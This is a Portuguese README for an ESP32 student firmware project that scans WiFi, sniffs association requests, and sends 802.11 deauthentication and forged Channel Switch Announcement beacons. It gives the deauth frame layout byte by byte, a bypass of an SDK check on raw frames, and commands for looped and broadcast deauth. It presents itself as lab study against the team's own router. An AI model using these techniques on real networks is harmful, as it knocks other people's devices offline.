


# ACCESS DENY — ESP32

Firmware em PlatformIO/Arduino pra um ESP32 que escaneia redes WiFi, deixa escolher/conectar numa rede por comando (Serial hoje, BLE depois, app em Flutter), e estuda ataques de camada de enlace 802.11 (deauth e CSA) numa rede de teste própria.

## Integrantes

- Felipe Camarano Ribeiro Bomfim
- Henrique de Oliveira Ferreira Lima
- João Pedro Almeida da Silva Santos
- Nicoly Lima Cardoso
- Rafael do Nascimento Maia

## Estrutura (`src/`)

| Arquivo | Responsabilidade |
|---|---|
| `main.cpp` | só liga os transports ao `CommandHandler` |
| `transport.h` | interface comum (`begin`, `poll`, `send`) |
| `serial_transport.*` | canal pelo monitor serial |
| `ble_transport.*` | canal BLE (remonta fragmentos, notifica em pedaços) |
| `command_handler.*` | interpreta um comando JSON e devolve a resposta; não sabe de onde o comando veio |
| `wifi_manager.*` | orquestrador do rádio: scan, connect, lock de canal, sniff, deauth |
| `packet_sniffer.*` | modo promíscuo, filtra Association Request pelo BSSID alvo |
| `deauth_frame_builder.*` | monta os 26 bytes do frame de deauth 802.11 |
| `csa_beacon_builder.*` | monta o beacon falso com o Channel Switch Announcement (ataque CSA) |
| `sanity_check_override.*` | substitui a checagem fechada da SDK pra liberar o envio de frame cru |

## Arquitetura



**Legenda:** cinza = entrada/saída · roxo = tradução JSON ↔ chamadas · verde = `WifiManager` (orquestrador) · laranja = quem monta/interpreta bytes 802.11.

## Estados do WifiManager

O rádio só faz uma coisa por vez: escanear, conectar como cliente, ou ficar travado num canal (pra sniff/deauth).



> `scan()` muda o canal do rádio pra varrer tudo, então **desfaz** um `lockChannel` anterior — dá `lock` de novo depois de escanear. `deauth` só funciona em `LOCKED` ou `SNIFFING`.

## Sequência: do scan ao deauth

Dois caminhos possíveis até o `deauth`: descobrir o MAC dinamicamente via sniff, ou já saber o MAC de antemão (hardcoded ou broadcast) e pular o sniff inteiro — o Association Request **não** é pré-requisito, só automatiza a descoberta.

```mermaid
sequenceDiagram
    participant U as Você (Serial/BLE)
    participant CH as CommandHandler
    participant WM as WifiManager
    participant PS as PacketSniffer
    participant DFB as DeauthFrameBuilder
    participant R as Rádio (ESP-IDF)

    U->>CH: {"cmd":"scan"}
    CH->>WM: scan()
    WM-->>CH: redes (ssid, bssid, channel, rssi)
    CH-->>U: JSON com a lista

    U->>CH: {"cmd":"lock","index":N}
    CH->>WM: lockChannel(N)
    WM->>R: esp_wifi_set_channel(canal)
    WM-->>CH: ok, estado = LOCKED
    CH-->>U: {"ok":true}

    rect rgb(30, 58, 95)
        note over U,PS: Caminho A — descobrir o MAC dinamicamente
        U->>CH: {"cmd":"sniff_start"}
        CH->>WM: startSniff()
        WM->>PS: begin(bssid travado)
        PS->>R: esp_wifi_set_promiscuous_rx_cb
        loop a cada frame de gerenciamento no canal
            R-->>PS: frame cru (payload)
            PS->>PS: Probe Request (subtype 0x4) → ignora
            PS->>PS: Association Request (subtype 0x0)?
            alt BSSID bate com o alvo
                PS->>PS: guarda addr2 (MAC real do celular)
            end
        end
        U->>CH: {"cmd":"sniff_poll"}
        CH->>WM: pollDiscovered()
        WM-->>CH: ["AA:BB:CC:DD:EE:FF"]
        CH-->>U: {"discovered":[...]}
    end

    rect rgb(90, 40, 20)
        note over U: Caminho B — MAC já conhecido
        note over U: hardcoded ou "broadcast", pula o sniff inteiro
    end

    U->>CH: {"cmd":"deauth","target":"AA:BB:CC:DD:EE:FF","reason":1}
    CH->>WM: sendDeauth(target, reason)
    WM->>DFB: build(mac, bssid, reason)
    DFB-->>WM: array de 26 bytes
    WM->>R: esp_wifi_80211_tx(array)
    CH-->>U: {"ok":true}
    note over R: celular desconecta
    note over R: SO decide quando reconecta (varia com o reason)
```



### O frame de deauth (26 bytes)

| Offset | Campo | Valor |
|---|---|---|
| 0-1 | Frame Control | `0xC0 0x00` (management, subtype deauth) |
| 2-3 | Duration | `0x00 0x00` |
| 4-9 | Addr1 (destino) | MAC alvo, ou `FF:FF:FF:FF:FF:FF` |
| 10-15 | Addr2 (origem) | BSSID (forjado, finge ser o AP) |
| 16-21 | Addr3 (BSSID) | BSSID |
| 22-23 | Sequence/Fragment | `0x00 0x00` |
| 24-25 | Reason Code | parâmetro (`1` a `24`) |

## Comandos JSON implementados

Toda resposta hierarquiza por assunto: `network` (quem está conectado), `target` (o que está travado pro deauth/sniff), `signal`/`security` (por rede escaneada), `stats`/`captured` (sniff). `state` sempre vem junto, pra você nunca ficar sem saber em que estado o rádio está.

### `scan` — lista redes com sinal e criptografia detalhados
```json
{"cmd":"scan"}
```
```json
{
  "ok": true,
  "count": 2,
  "networks": [
    {
      "index": 1,
      "ssid": "TP-LINK-TESTE",
      "bssid": "AA:BB:CC:11:22:33",
      "channel": 6,
      "signal": {"rssi": -48, "quality": "excelente"},
      "security": {"secure": true, "encryption": "wpa2_psk"}
    }
  ]
}
```

### `connect` — conecta como cliente normal
```json
{"cmd":"connect","index":1,"pass":"senha"}
```
```json
{
  "ok": true,
  "state": "connected",
  "network": {"ssid": "TP-LINK-TESTE", "ip": "192.168.0.42", "gateway": "192.168.0.1", "subnet": "255.255.255.0", "rssi": -50}
}
```

### `status` — estado atual, com rede conectada e/ou alvo travado
```json
{"cmd":"status"}
```
```json
{
  "ok": true,
  "state": "locked",
  "target": {"ssid": "TP-LINK-TESTE", "bssid": "AA:BB:CC:11:22:33", "channel": 6}
}
```

### `lock` — trava o rádio no canal daquela rede, sem conectar
```json
{"cmd":"lock","index":2}
```
```json
{
  "ok": true,
  "state": "locked",
  "target": {"index": 2, "ssid": "TP-LINK-TESTE", "bssid": "AA:BB:CC:11:22:33", "channel": 6}
}
```

### `unlock` — solta o canal, volta pro IDLE
```json
{"cmd":"unlock"}
```
```json
{"ok": true, "state": "idle"}
```

### `sniff_start` — liga modo promíscuo (precisa estar `locked`). Por padrão guarda `assoc` + `reassoc`; dá pra escolher os tipos
```json
{"cmd":"sniff_start"}
```
```json
{"cmd":"sniff_start","types":["assoc","reassoc","probe"]}
```
```json
{"ok": true, "state": "sniffing", "types": ["assoc", "reassoc", "probe"]}
```

### `sniff_stop` — desliga o promíscuo
```json
{"cmd":"sniff_stop"}
```
```json
{"ok": true, "state": "locked"}
```

### `sniff_poll` — stats + os últimos eventos guardados (buffer circular de 40, não limpa ao ler)
```json
{"cmd":"sniff_poll"}
```
```json
{
  "ok": true,
  "state": "sniffing",
  "stats": {"mgmt_seen": 169, "beacon_seen": 153, "probe_req_seen": 2, "assoc_req_seen": 1, "reassoc_req_seen": 0, "matched": 1},
  "captured": [
    {"type": "assoc_req", "mac": "AA:BB:CC:DD:EE:FF", "target_match": true},
    {"type": "probe_req", "mac": "11:22:33:44:55:66", "ssid": "OutraRedeSalva", "target_match": false}
  ]
}
```

### `sniff_stats` — só os contadores, sem a lista de eventos (mais leve pra checar rápido)
```json
{"cmd":"sniff_stats"}
```
```json
{
  "ok": true,
  "state": "sniffing",
  "stats": {"mgmt_seen": 169, "beacon_seen": 153, "probe_req_seen": 2, "assoc_req_seen": 1, "reassoc_req_seen": 0, "matched": 1}
}
```

### `deauth` — envia o frame de deauth, pra um MAC ou broadcast
```json
{"cmd":"deauth","target":"AA:BB:CC:DD:EE:FF","reason":1}
```
```json
{"cmd":"deauth","target":"broadcast","reason":1}
```
```json
{
  "ok": true,
  "state": "sniffing",
  "deauth": {"target": "AA:BB:CC:DD:EE:FF", "reason": 1, "bssid": "AA:BB:CC:11:22:33"}
}
```
Aceita também `"type":"disassoc"` e `"count":N` (rajada curta de N frames, máx 100).

### `deauth_loop_start` / `deauth_loop_stop` — mantém o alvo fora reenviando deauth em intervalo fixo
Um deauth solto o cliente reconecta na hora, então o loop reenvia alguns frames a cada `interval` ms até você parar.
```json
{"cmd":"deauth_loop_start","target":"AA:BB:CC:DD:EE:FF","interval":200}
```
```json
{
  "ok": true,
  "state": "locked",
  "deauth_loop": {"target": "AA:BB:CC:DD:EE:FF", "reason": 1, "type": "deauth", "interval_ms": 200, "bssid": "AA:BB:CC:11:22:33"}
}
```
```json
{"cmd":"deauth_loop_stop"}
```
```json
{"ok": true, "state": "locked", "deauth_loop": {"active": false, "sent": 480}}
```

### `csa_start` / `csa_stop` — ataque por Channel Switch Announcement, passa onde o deauth esbarra no PMF
Manda um beacon falso do AP alvo com um aviso de troca de canal, empurrando os clientes pra um canal morto. Como o beacon não é protegido pelo PMF, funciona até em WPA3. `new_channel` é opcional (`0` escolhe um canal longe do atual).
```json
{"cmd":"csa_start","new_channel":1,"interval":100}
```
```json
{
  "ok": true,
  "state": "locked",
  "csa": {"bssid": "AA:BB:CC:11:22:33", "ssid": "TP-LINK-TESTE", "current_channel": 6, "new_channel": 1, "interval_ms": 100}
}
```
```json
{"cmd":"csa_stop"}
```
```json
{"ok": true, "state": "locked", "csa": {"active": false, "sent": 1240}}
```

## Build e gravação

```bash
pio run
pio run -t upload
pio run -t monitor
```

Ou no VS Code: extensão **PlatformIO IDE**, botão **Upload** na barra azul de baixo, e o **Serial Monitor** (🔌) ou a extensão **Serial Monitor** da Microsoft (`ms-vscode.vscode-serial-monitor`) pra mandar os comandos.

⚠️ Os testes de deauth são feitos só contra um roteador próprio, comprado exclusivamente pra isso, pra fins de estudo (trabalho de faculdade).
